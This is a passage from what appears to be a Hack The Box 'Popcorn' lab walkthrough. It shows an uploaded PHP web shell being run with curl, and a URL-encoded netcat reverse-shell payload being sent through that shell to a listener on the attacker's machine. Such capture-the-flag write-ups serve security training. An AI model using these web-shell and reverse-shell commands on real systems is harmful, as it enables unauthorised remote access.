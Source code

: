 Follow the url, I can access to the upload folder at `http://10.10.10.6/torrent/upload/`

![](images/8.png)

### Gain Reverse Shell

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/popcorn)

Execute the backdoor and get reverse shell.

```
┌──(Hades㉿10.10.14.5)-[7.1:42.6]~/walkthrough/hackthebox/popcorn
└─$ curl 'http://10.10.10.6/torrent/upload/8509e36e3f62457bb3e33d07cd9a2440b83aa9fd.php?cmd=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Url encode payload with `hURL`

```
┌──(Hades㉿10.10.14.5)-[6.8:42.7]~
└─$ hURL -U 'nc -nv 10.10.14.5 443 -e /bin/sh'

Original    :: nc -nv 10.10.14.5 443 -e /bin/sh
URL ENcoded :: nc%20-nv%2010.10.14.5%20443%20-e%20%2Fbin%2Fsh
```

Open listener in the kali machine.

```
sudo nc -nvlp 443
```

Execute payload

```
curl 'http://10.10.10.6/torrent/upload/8509e36e3f62457bb3e33d07cd9a2440b83aa9fd.php?cmd=nc%20-nv%2010.10.14.5%20443%20-e%20%2Fbin%2Fsh'
```
